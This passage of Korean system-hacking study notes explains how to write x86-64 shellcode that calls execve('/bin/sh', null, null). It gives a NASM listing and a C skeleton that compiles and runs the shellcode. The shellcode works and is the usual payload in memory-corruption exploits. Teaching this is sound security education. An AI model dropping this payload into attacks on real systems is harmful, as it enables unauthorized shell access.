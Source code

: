 - execve 셸코드는 execve 시스템 콜만으로 구성됨

![Untitled](./Shell_Code.assets/Untitled%204.png)

- 여기서 `argv` 는 실행파일에 넘겨줄 인자, `envp` 는 환경변수
    - sh만 실행하면 되기 때문에 다른 값들은 전부 `null`로 설정해줘도 됨
- 따라서 우리는 `execve("bin/sh", null, null)` 을 실행하는 것을 목표로 셸 코드를 작성하면 됨

```nasm
;Name: execve.S

mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp  ; rdi = "/bin/sh\x00"
xor rsi, rsi  ; rsi = NULL
xor rdx, rdx  ; rdx = NULL
mov rax, 0x3b ; rax = sys_execve
syscall       ; execve("/bin/sh", null, null)
```

### execve 셸코드 컴파일 및 실행

- 동일하게 스켈레톤 코드를 이용하여 execve 셸코드를 컴파일

```nasm
// File name: execve.c
// Compile Option: gcc -o execve execve.c -masm=intel

__asm__(
    ".global run_sh\n"
    "run_sh:\n"

    "mov rax, 0x68732f6e69622f\n"
    "push rax\n"
    "mov rdi, rsp  # rdi = '/bin/sh'\n"
    "xor rsi, rsi  # rsi = NULL\n"
    "xor rdx, rdx  # rdx = NULL\n"
    "mov rax, 0x3b # rax = sys_execve\n"
    "syscall       # execve('/bin/sh', null, null)\n"

    "xor rdi, rdi   # rdi = 0\n"
    "mov rax, 0x3c	# rax = sys_exit\n"
    "syscall        # exit(0)");

void run_sh();

int main() { run_sh(); }
```
